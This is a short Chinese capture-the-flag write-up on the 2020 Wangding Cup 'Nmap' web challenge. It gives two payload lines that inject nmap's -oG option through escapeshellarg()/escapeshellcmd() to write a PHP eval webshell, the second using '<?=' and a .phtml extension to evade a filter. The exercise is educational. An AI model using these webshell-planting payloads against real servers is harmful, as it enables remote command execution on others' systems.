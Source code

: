 ```yaml
---

title: 日常练习22——初识nmap命令

date: 2021-04-24 23:13:03

tags: 练习

categories: test71

---
```

这道题和之前写的那道onlinetool是一个类型的，都是nmap命令的使用加上escapeshellarg()+escapeshellcmd()的函数漏洞，只不过多了几个小过滤而已。   

# [网鼎杯 2020 朱雀组]Nmap  

题目就已经提示的很明白了，就是考察nmap命令的使用，我们直接用上一道题的payload来写入一句话木马：  

	' <?php eval($_POST["v"]);?> -oG shell.php '  

[![](https://img.imgdb.cn/item/60857235d1a9ae528f37d36d.png)](https://img.imgdb.cn/item/60857235d1a9ae528f37d36d.png)  

发现有东西被过滤了。过滤的是php后缀名，我们使用phtml来绕过后缀，用等号来绕过前面的php字符  

	' <?= eval($_POST["v"]);?> -oG shell.phtml '    

[![](https://img.imgdb.cn/item/608572e9d1a9ae528f3f0d97.png)](https://img.imgdb.cn/item/608572e9d1a9ae528f3f0d97.png)  

这次没有被拦截，我们查看一下是否写入成功文件。  

[![](https://img.imgdb.cn/item/60857333d1a9ae528f420b81.png)](https://img.imgdb.cn/item/60857333d1a9ae528f420b81.png)

确实写入成功，接下来我们就可以使用蚁剑来连接或者直接在页面执行命令语句。  

[![](https://img.imgdb.cn/item/608573dcd1a9ae528f494add.png)](https://img.imgdb.cn/item/608573dcd1a9ae528f494add.png)  

在根目录发现flag。  

# 小结  

这道题目其实就是上一道题目翻版，只不过多了对php的过滤，考察的内容还是一样的，关于nmap命令的使用还是要多加熟悉，不能一眼看到不知道这是什么。

